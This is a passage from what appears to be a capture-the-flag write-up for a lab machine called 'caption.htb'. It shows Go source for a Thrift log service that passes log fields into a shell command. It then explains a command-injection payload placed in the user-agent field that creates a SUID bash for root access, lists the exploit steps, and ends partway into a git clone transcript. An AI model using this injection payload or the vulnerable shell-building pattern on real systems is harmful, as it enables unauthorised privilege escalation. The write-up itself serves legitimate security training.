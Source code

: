 ```go
40.         }
41.         timestamp := time.Now().Format(time.RFC3339)
42.         logs := fmt.Sprintf("echo 'IP Address: %s, User-Agent: %s, Timestamp: %s' >> output.log", ip, userAgent, timestamp)
43.         exec.Command{"/bin/sh", "-c", logs}
44.     }
45.     return "Log file processed",nil
46. }

48. func main() {
49.     handler := &LogServiceHandler{}
50.     processor := log_service.NewLogServiceProcessor(handler)
51.     transport, err := thrift.NewTServerSocket(":9090")
52.     if err != nil {
53.         log.Fatalf("Error creating transport: %v", err)
54.     }

56.     server := thrift.NewTSimpleServer4(processor, transport, thrift.NewTTransportFactory(), thrift.NewTBinaryProtocolFactoryDefault())
57.     log.Println("Starting the server...")
58.     if err := server.Serve(); err != nil {
59.         log.Fatalf("Error occurred while serving: %v", err)
60.     }
61. }
```

Investigating this file a bit more we can see that the ReadLogFile function takes a file, checks that it has the correct format, then runs an echo command to append to **output.log**, supplying the variables directly from the log file it received.

The format of the log must be `IP "user-agent":"AGENT"`, and seeing as we can see the echo command run we can throw a stray ' to escape the echo command and run our own code. By setting the user agent to `'; cp /bin/bash /tmp/bash && chmod u+s /tmp/bash #` I can create an SUID bash if my log is ever read. 

## thrift client

To interact with this thrift server I need to create a client, and that client should be able to specify what log file to parse through. Thrift is language agnostic and is used to generate and facilitate communications between different coding languages. Here thanks to the .thrift file within the LogService repo I can generate supporting python code so that I can write the client in python. 

The simple steps here to make a functioning exploit are to clone the git repo, generate the supporting python code with thrift, transfer the files to my local host, ssh tunnel port 9090, create the malicious log file, write a client in python, then run the python code for arbitrary code execution. 

Step 1: cloning the git repo

```bash
margo@caption:~$ git clone http://caption.htb:8080/root/Logservice.git
Cloning into 'Logservice'...
Username for 'http://caption.htb:8080': root
Password for 'http://root@caption.htb:8080': 
warning: redirecting to http://caption.htb:8080/git/root/Logservice.git/
remote: Counting objects: 32, done
remote: Finding sources: 100% (32/32)
remote: Getting sizes: 100% (23/23)
remote: Compressing objects: 100% (8702/8702)
Receiving objects: 100% (32/32), 8.16 KiB | 1.36 MiB/s, done.
Resolving deltas: 100% (9/9), done.
remote: Total 32 (delta 9), reused 11 (delta 0)
```
